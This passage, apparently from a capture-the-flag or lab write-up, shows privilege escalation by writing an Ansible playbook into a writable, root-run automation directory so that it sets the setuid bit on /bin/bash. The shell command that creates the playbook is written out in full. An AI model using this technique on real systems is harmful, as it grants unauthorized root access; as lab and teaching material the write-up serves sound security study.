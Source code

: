 
and we have write access to `/opt/automation/tasks`, so we can write a playbook config and get shell as root.

![](screenshots/privesc-pspy.png)

playbook Config to execute command as root.
```yml
cat > /opt/automation/tasks/shell.yml << EOF
- hosts: localhost
  tasks:
    - name: Priv esc
      ansible.builtin.shell: |
        chmod +s /bin/bash
      become: true
EOF
```

And next time when playbook execute, it create a `chmod +s /bin/bash` and set `setuid` of root user. 

![](screenshots/rooted.png)
